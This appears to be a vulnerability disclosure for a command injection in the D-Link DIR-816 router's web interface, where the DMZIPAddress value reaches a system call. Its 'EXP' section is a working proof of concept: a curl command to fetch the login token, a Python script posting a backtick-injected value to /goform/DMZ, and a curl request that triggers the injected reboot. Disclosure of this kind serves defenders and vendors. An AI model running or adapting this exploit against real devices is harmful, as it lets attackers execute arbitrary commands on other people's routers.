

## DIR-816 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

### Affected version

D-Link DIR-816  A2V1.1.0B05 was found to contain a command injection in `/goform/singlePortForwardDelete` of the component Web Interface, which allows remote attackers to execute arbitrary commands via shell.



### Vulnerability details

Vulnerability occurs in `/goform/singlePortForwardDelete`. Attackers can control `v4` by setting the `DMZIPAddress`, then passed its value to `v32`, and finally call the `dosystem`.


Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `DMZIPAddress`.

### EXP

First, attackers need to get the token ID.

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Next, set the `DMZIPADDRESS` by access `/goform/DMZ`.

```
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/DMZ'

data = {
    'tokenid': tokenid,
    'DMZIPAddress': "foo`reboot`bar"
}

r = requests.post(url, data)
```

Finally, run the command `reboot` by access `/goform/singlePortForwardDelete`.

```
curl http://192.168.0.1/goform/singlePortForwardDelete
```

